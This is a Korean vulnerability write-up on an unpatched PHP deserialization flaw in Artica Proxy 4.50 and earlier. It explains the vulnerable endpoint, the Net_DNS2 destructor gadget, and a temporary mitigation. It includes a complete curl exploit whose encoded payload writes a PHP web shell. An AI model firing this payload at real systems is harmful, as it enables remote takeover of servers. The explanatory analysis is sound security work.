

## URL

https://blog.sonicwall.com/en-us/2024/03/unpatched-php-deserialization-vulnerability-in-artica-proxy/

## Target

-  Artica Proxy <= 4.50

## Explain

웹 필터링, SSL 검사 및 대역폭 관리에 사용되는 Artica Proxy에서 PHP 객체를 적절하게 검증하지 않고 deserialization을 수행해 RCE 취약점이 발생했습니다.

```
if(isset($_GET["build-js"])){buildjs();exit;} 
...
$ARRAY=unserialize(base64_decode($_GET["build-js"]));

```
`/wizard/wiz.wizard.progress.php` 엔드포인트로 request를 보내면 `buildjs` 함수 내에서 검증 과정 없이 `build-js` 매개변수 값을 base64 디코딩 후 `unserialize`함수를 호출합니다.


```
curl -k "$ARTICA_URL/wizard/wiz.wizard.progress.php?build-js=TzoxOToiTmV0X0ROUzJf
Q2FjaGVfRmlsZSI6NDp7czoxMDoiY2FjaGVfZmlsZSI7czo0NzoiL3Vzci9zaGFyZS9hcnRpY2EtcG9zd
GZpeC93aXphcmQvd2l6LnVwbG9hZC5waHAiO3M6MTY6ImNhY2hlX3NlcmlhbGl6ZXIiO3M6NDoianNvbi
I7czoxMDoiY2FjaGVfc2l6ZSI7aTo5OTk5OTk5OTk5O3M6MTA6ImNhY2hlX2RhdGEiO2E6MTp7czozMDo
iPD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2bIjthOjI6e3M6MTA6ImNhY2hlX2RhdGUiO2k6MD
tzOjM6InR0bCI7aTo5OTk5OTk5OTk5O319fQ%3d%3d"

```
따라서, 공격자는 `build-js` 매개변수에 base64로 인코딩된 payload로 설정한 후 request를 `/wizard/wiz.wizard.progress.php` 엔드포인트로 보내는 것으로 취약점을 트리거 할 수 있습니다.

트리거는 간단하지만 deserialization로 exploit을 하기 위해서는 서버 측 PHP 모듈 내에서 exploit 할 수 있는 객체를 찾아야 합니다.

```
public function __destruct()
{
    // if there's no cache file set, then there's nothing to do
    if (strlen($this->cache_file) == 0) {
        return;
    }
    // open the file for reading/writing
    $fp = fopen($this->cache_file, 'a+');
    if ($fp !== false) {
        ...
        if (!is_null($data)) {
            // write the file contents
            fwrite($fp, $data);
        }
    }
}
```

해당 취약점은 `Net_DNS2` 라이브러리 내의 `Net_DNS2_Cache_File` 클래스 소멸자(`__destruct`)를 payload로 사용했습니다.

`Net_DNS2`를 이용한 방법은 2016년도에 해결되었지만 Artica Proxy에서 취약한 버전의 라이브러리를 사용하고 있어 exploit에 사용되었습니다.




이를 통해 기존 파일을 웹 쉘로 덮어쓰고 악성 PHP를 `www-data` 권한으로 실행할 수 있습니다.

해당 취약점은 공개된 패치가 없어 `usr/share/artica-postfix/wizard` 디렉토리를 삭제하여 임시적으로 해결할 수 있습니다.


## Reference

https://korelogic.com/Resources/Advisories/KL-001-2024-002.txt